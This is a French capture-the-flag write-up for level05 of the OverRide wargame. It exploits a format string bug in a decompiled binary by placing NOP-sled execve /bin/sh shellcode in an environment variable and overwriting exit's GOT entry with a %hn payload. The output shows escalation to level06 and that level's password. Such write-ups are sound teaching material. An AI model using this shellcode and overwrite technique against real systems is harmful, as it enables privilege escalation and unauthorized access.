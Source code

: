 # **Level 05**

Pour ce `level05` nous decompilons l'executable

```
#include <stdio.h>
#include <stdlib.h>

int main(void)
{
	char s[100]; // [esp+28h] [ebp-70h] BYREF
	unsigned int i; // [esp+8Ch] [ebp-Ch]

	i = 0;
	fgets(s, 100, stdin);
	for ( i = 0; i < strlen(s); ++i ) //tolower
	{
		if ( s[i] > 64 && s[i] <= 90 )
			s[i] ^= 0x20u;
	}
	printf(s);
	exit(0);
}
```

Donc le code prend un input de `100` caractere, effectue un `tolower` dessus, puis l'affiche en utilisant `printf`

Cependant `printf` est ici mal utilise, le premier arguments de `printf` correspond a la format string donc
les `%_` sont interprete, on peux donc faire une `format string attack` sur cette executable

On va donc mettre un `shellcode` dans l'env precede par une multitude de `NOP` puis remplacer l'addresse de `exit`
par l'addresse de notre `shellcode` grace au `%n`

Nous commencons par recuperer l'addresse d'`exit`

```
(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0 <==
   0x08048376 <+6>:	push   $0x18
   0x0804837b <+11>:	jmp    0x8048330
```
Adresse exit -> `0x80497e0`

Puis nous creeons notre `shellcode` dans l'env
```
level05@OverRide:~$ export SHELLCODE=$(python -c "print'\x90'*1024 + '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh'")
```

Et nous recuperons sont addresse
```
(gdb) x getenv("SHELLCODE")
0xffffd4ba:	0x90909090
```

Et la nous avons un probleme, car `0xffffd4b0` est superieur a `2147483647 (MAXINT)` aui est la valeur maximal que prend `%n`
donc nous ne pouvons pas ecrire cette addresse de cette facon

Il faut donc ruser, un `int` est compose de `4` bytes ce aui signifie que pour avancer d'`int` en `int` il faut avancer de `4` bytes.
Mais que ce passe-t-il quand on avance uniquement de `2` bytes ?
Tout simplement on recupere les deux derniers byte de l'addresse de base et les 2 premiers byte de l'addresse suivante

Voici un schema pour expliquer

![Le schema](/level05/resources/ovveridelvl05.png)

Donc le plan est d'ecrire les `2` premiers bytes de l'addresse de notre `shellcode` dans l'addresse `exit`
puis les `2` derniers dans l'addresse d'`exit + 2`.

> On vise au milieux des `NOP` donc `0xd4ba` deviens `0xd5ba`

Soit `0xd5ba - 8` = `54714` puis `0xffff - 0xd5ba - 8 = 10813`

On peux donc faire notre payload

> On utilise `%hn` au lieu de `%n` pour marque le fais qu'on ecrit uniquement sur les 2 premiers bytes

```
level05@OverRide:~$ python -c 'print"\xe0\x97\x04\x08"+"\xe2\x97\x04\x08"+"%54714x%10$n%10813x%11$n"' > /var/crash/file
level05@OverRide:~$ cat /var/crash/file - | ./level05 
id
uid=1005(level05) gid=1005(level05) euid=1006(level06) egid=100(users) groups=1006(level06),100(users),1005(level05)
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq

```

> ### NEXT : [Level 06](/level06/resources/README.md)
